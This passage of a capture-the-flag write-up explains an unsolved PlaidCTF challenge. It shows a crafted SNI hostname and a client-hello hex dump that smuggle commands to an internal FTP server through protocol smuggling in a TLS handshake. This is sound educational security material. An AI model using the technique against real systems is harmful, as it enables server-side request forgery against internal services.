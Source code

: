 `https://p8.8.8.8.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaa.127.0.0.1.xip.io:1212`

Of course, the DNS record will resolve to 127.0.0.1. ([xip.io](http://xip.io/)
is a handy website when you're too lazy to build up a DNS server yourself.)

The raw client hello will be like:  
```  
...  
0040   c0 14 00 33 00 39 00 2f 00 35 00 0a 01 00 01 b5  ...3.9./.5......  
0050   00 00 00 6e 00 6c 00 00 69 70 38 2e 38 2e 38 2e  ...n.l..ip8.8.8.  
0060   38 2e 61 61 61 61 61 61 61 61 61 61 61 61 61 61  8.aaaaaaaaaaaaaa  
0070   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa  
0080   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa  
0090   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa  
00a0   61 2e 61 61 61 61 61 61 61 61 61 61 61 61 61 61  a.aaaaaaaaaaaaaa  
00b0   61 2e 31 32 37 2e 30 2e 30 2e 31 2e 78 69 70 2e  a.127.0.0.1.xip.  
00c0   69 6f 00 17 00 00 ff 01 00 01 00 00 0a 00 0a 00  io..............  
00d0   08 00 1d 00 17 00 18 00 19 00 0b 00 02 01 00 00  ................  
00e0   23 00 00 00 10 00 0e 00 0c 02 68 32 08 68 74 74  #.........h2.htt  
00f0   70 2f 31 2e 31 00 05 00 05 01 00 00 00 00 00 0d  p/1.1...........  
...  
```

1. The SNI length is 0x69, which is ASCII `i`.  
2. The data type of SNI length is a 2-byte integer, so it will become 0x00 0x69.  
3. The FTP server ignores all the invalid command.  
4. Both newline and null byte 0x00 can be used to spicify the end of a command in the FTP server.  
5. Because we don't know the port, one might use iptables to listen on a number of ports.

We didn't come out of this exploitation. Full credit for @kunte_. His/Her
explanation is [here](https://files.veryhax.ninja/writeup_idiot_camera.txt).
Many thanks to him/her! **Note that I didn't check if the payload works or
not**.

Acctually, the protcol smuggling technique is referred in the [2017 Blackhat
by orange](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-
Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf). It's
really a shame that I didn't think of exploiting SNI, because my research
about DDoS mitigation utilizes SNI in the implmentation.

By the way, it's cool challenge! That's a very intriguing way to smuggle the
protocol. You can check out the author's setup album
[here](https://imgur.com/a/lrIQto5).  

Original writeup
(https://github.com/balsn/ctf_writeup/tree/master/20180505-plaidctf#idiot-
camera-unsolved-written-by-bookgin).